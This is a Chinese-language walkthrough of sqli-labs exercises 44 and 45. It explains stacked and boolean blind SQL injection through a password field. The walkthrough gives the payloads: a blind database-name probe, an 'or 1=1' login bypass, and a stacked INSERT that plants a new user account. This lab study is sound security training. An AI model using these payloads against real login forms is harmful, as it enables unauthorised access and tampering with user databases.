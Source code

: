 



#### 44. 堆叠盲注



> 此题做错了。这题很有意思。惯性思维会导致这题出错。我看到网上的不少人都做错了这道题。

> 根据作者的题意，此题应该是叫登录，当然我们肯定不止这样做。



此题的精妙之处就在于：完全没有报错信息，只有登录成功与否。而且已经写了四十多道题，我们已经很清楚数据库中有哪些表，而密码中又有一个`'`单引号闭合的注入点。所以很多人都选择了直接通过堆叠直接新增数据，然后让自己能够登录。

​	但是问题来了，`sqli-labs`是一套模拟题，这题我们应该是作为黑客的角度来看题，黑客当然不知道数据库中有哪些表，所以就算知道有单引号闭合的注入漏洞，也不能就直接的新增数据。

​	所以此题应该先用盲注来获取数据库结构。





payload

> 盲注爆表。注意：此处只能使用bool盲注，不能使用时间盲注。因为是`or`，盲注的话会阻塞

```
username:任意
password:1' or substr((database()),1,1)='s'#				ps.具体的猜解步骤就不写了
```

> 此处如果猜对的话直接就是登录成功。当然如果是登录的话：`1'or 1=1#`更简单





> 得到表名`users`后

```
username:任意
password:1';insert into users values(42,'rr','rr')#
```









猜测后端sql语句：

```
select * from users where username='前端数据' and password='前端数据' limit 0,1;
```

> 密码处未过滤





#### 45.



此题的大致解法和44题一样，只是44题使用`'`单引号闭合。此题使用`()`小括号,`'`单引号闭合
